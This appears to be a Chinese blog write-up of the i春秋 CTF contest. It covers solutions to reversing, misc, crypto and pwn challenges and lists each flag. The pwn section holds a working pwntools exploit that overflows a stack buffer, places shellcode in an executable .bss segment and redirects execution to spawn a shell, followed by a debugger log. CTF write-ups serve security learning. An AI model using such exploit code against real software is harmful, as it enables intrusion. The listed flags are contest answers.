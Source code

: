 ```yaml
---
title: i春秋CTF答题赛（第三季）WriteUp
visitors: 阅读量
copyright: true
tags:
  - writeup
categories:
  - writeup
abbrlink: e0b3d41f
date: 2019-11-30 23:49:53
updated: 2019-12-01 23:49:53
password:
top:
---
```


# i春秋CTF答题赛（第三季）WriteUp

## Re

### 幸运数字

分析 main 函数得出，只要输入的值经过加密转换之后等于``H5wg_2g_MCif_T1ou_v7v7v``，就会返回真正 flag 。加密算法只针对字符串中的英文字符。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191129124503.png)

分析中间加密部分可知，如果密文是大写字母，那么明文也是大写字母；小写字母同理。如果想检验的下面给出加密部分的 c 源码，自己加一个循环上去，看看就知道了。

```c
#include <stdio.h>
#include <cstring>
int main()
{
	char a_list[]= "N5cm_2m_SIol_Z1ua_b7b7b";
	unsigned int v5=strlen(a_list)+1;
	int i;
	char v8;
	char v9;
	for(i=0;i<=v5-2;++i)
	{
		v8 = a_list[i];
		if(v8>'Z'||v8<'A')
		{
			if(v8>'z'||v8<'a')
			continue;
			v9 = (v8 - 83) % 26 + 97;
		}
		else
		{
			v9 = (v8 - 51) % 26 + 65;
		 } 
		a_list[i] = v9;
	}
	printf("%s",a_list);
 } 
```

反正明文组合也不多，就爆破之。最终 exp 如下：

```python
import string
a = "H5wg_2g_MCif_T1ou_v7v7v"
b = ""
ascii_lowercase = string.ascii_lowercase
ascii_uppercase = string.ascii_uppercase

for letter in a:
	log = 0
	if letter in ascii_uppercase:
		for upper in ascii_uppercase:
			c_upper = (ord(upper)-51)%26+65
			if chr(c_upper) == letter:
				b += upper
				log = 1
				print("[+]{} is find --> {}".format(letter,upper))
	if letter in ascii_lowercase:
		for lower in ascii_lowercase:
			c_lower = (ord(lower)-83)%26+97
			if chr(c_lower) == letter:
				b += lower
				log = 1
				print("[+]{} is find --> {}".format(letter,lower))
	if log == 0:
		b += letter
		print("[+]{} is find.".format(letter))
print(b)
```

####  flag

flag{T5is_2s_YOur_F1ag_h7h7h}



## Misc

### word

密码：cq19

**白给**

#### flag

flag{obol0dxf-adtr-1vft-p7ng-djulcfsbil3y}



## Crypto

### md5_brute

将4个 md5 拿去解密得到flag。

[在线md5解密](<https://www.cmd5.com/>)

#### flag

flag{wangwu-2019-1111-9527}



### code

差分曼彻斯特编码 + 十六进制转字符串

```python
msg1 = 0x9a9a9a6a9aa9656699a699a566995956996a996aa6a965aa9a6aa596a699665a9aa699655a696569655a9a9a9a595a6965569a59665566955a6965a9596a99aa9a9566a699aa9a969969669aa6969a9559596669
s = bin(msg1)[2:]
print s
r = ""
tmp = 0
for i in xrange(len(s) / 2):
    c = s[i * 2]
    if c == s[i * 2 - 1]:
        r += '1'
    else:
        r += '0'
print hex(int(r, 2))[2:-1].decode('hex')
```

#### flag

flag{zw1tt1hl-7zcv-ebfk-akxt-i4xdsxeuv5d3}



### encrypt

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191201204636.png)

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191201204704.png)

#### flag

flag{Easy!eAsy!eaSy!}

## Pwn

### Electrical System

64位，仅有 NX 保护的程序。通过 IDA 分析，在菜单选择列表中，存在着栈溢出的漏洞。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191201200724.png)

分析源码得出，在输入 ID 时，数据(&buf)将会保存到 .bss 段，输入地址`0x6020e0`，检查发现这个程序的 .bss 段有可执行权限。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191201200700.png)

最终利用思路：输入 ID 时，把 shellcode 输进去。在菜单时，输入``Check``或者``Recharge``，避免``exit(0)``，然后精心构造栈上数据，将 rip 覆写为 .bss 段地址（0x6020e0）。

> Q：为什么需要输入输入``Check``或者``Recharge``?
>
> A：覆写的是 menu_brand（0x0000000000400AEE） 返回地址，即完成一次菜单选择才会返回上层的循环(被覆写后则跳转到 .bss 段)，因此需要确保不会触发 menu_brand 的 exit() 函数，所以需要输入一个功能选项。这里为了简单就选 Check 。

最终exp如下：

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p = remote('120.55.43.255',11002)
p = process("./pwn")
p.recvuntil('ID:\n')
p.sendline(asm(shellcraft.sh()))

recharge_addr = 0x0000000000400A6F
sh_addr = 0x00000000006020E0

p.recvuntil('choice:\n')
p.sendline('Check' + 11 * 'a' + p64(sh_addr))
p.interactive()
```



#### flag

flag{8e0ab265-066c-4d9c-8cc4-bd5a425aadae}



#### 后记

pwndbg 的 REGISTERS 查看不知道有没有坑？在栈溢出时，实际上已经覆写了 rip 的值，但是 REGISTERS 显示的是原值。通过查内存(0x7fffffffdd48)，可以证实 rip 已经被覆写了。又或者将 payload 的 .bss 地址修改为 'a'*0x8 ，就会报错，然后 gdb 程序并加载生成的 core文件，查询 rip 的值。

```shell
···
Please enter your choice:
Checkaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x0000000000400b5d in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────[ REGISTERS ]─────────────────
RDI  0x7fffffffdd38 ◂— 'Checkaaaaaaaaaaaaaaaaaaaaaaaaaaa'
RSI  0x400ec7 ◂— push   0x6b6365 /* 'Check' */
RBP  0x7fffffffdd40 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaa'
RIP  0x400b5d ◂— call   0x400a3a
─────────────────[ STACK ]─────────────────
00:0000│ rsp  0x7fffffffdd30 ◂— 0x0
01:0008│ rdi  0x7fffffffdd38 ◂— 'Checkaaaaaaaaaaaaaaaaaaaaaaaaaaa'
02:0010│ rbp  0x7fffffffdd40 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaa'
... ↓
05:0028│      0x7fffffffdd58 ◂— 0x500000000
06:0030│      0x7fffffffdd60 —▸ 0x400ce0 ◂— push   r15
07:0038│      0x7fffffffdd68 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax

pwndbg> x/20gx 0x7fffffffdd38
0x7fffffffdd38:	0x6161616b63656843	0x6161616161616161
0x7fffffffdd48:	0x6161616161616161	0x6161616161616161
0x7fffffffdd58:	0x0000000500000000	0x0000000000400ce0
0x7fffffffdd68:	0x00007ffff7a2d830	0x0000000000000001
0x7fffffffdd78:	0x00007fffffffde48	0x00000001f7ffcca0
0x7fffffffdd88:	0x0000000000400bc6	0x0000000000000000
```